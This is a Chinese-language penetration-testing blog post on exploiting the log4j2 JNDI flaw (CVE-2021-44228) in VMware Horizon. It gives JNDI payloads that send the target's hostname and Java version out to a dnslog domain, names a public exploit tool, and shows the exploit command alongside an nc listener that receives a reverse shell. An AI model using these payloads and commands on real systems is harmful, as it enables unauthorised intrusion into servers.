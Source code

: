 ```yaml
---
title: VMWare Horizon 漏洞利用案例
date: 2023-09-15 18:53:00 +0800
img_path: /
categories: [肾透, 漏洞利用]
tags: [肾透, 漏洞利用]     
---
```


# VMWare Horizon 漏洞利用案例

## 前期测试



VMWare Horizon 存在 log4j2 CVE-2021-44228 漏洞

手动复现未果，直接当脚本小子上工具吧。有时候打不进去是因为工具不对！

漏洞利用工具：https://github.com/puzzlepeaches/Log4jHorizon

本次复现流程：

测试是否存在log4j(先利用DNSlog外带出一些基本信息)

 ${jndi:dns://${hostName}.rn6t7t.dnslog.cn}

${jndi:dns://${sys:java.version}.rn6t7t.dnslog.cn}

![image-20230915230059796](assets/image-20230915230059796.png)

## 攻击过程

攻击机：

```python3
python3 exploit.py -r -t xxx.xxx.com -p 9001 -i vps
```

监听：

```bash
nc -lvvp 9001
```

先开启监听9001端口

![image-20230915230437510](assets/image-20230915230437510.png)

利用攻击脚本：

![image-20230915230504022](assets/image-20230915230504022.png)

接收到shell：

![image-20230915230550477](assets/image-20230915230550477.png)

《上号！》
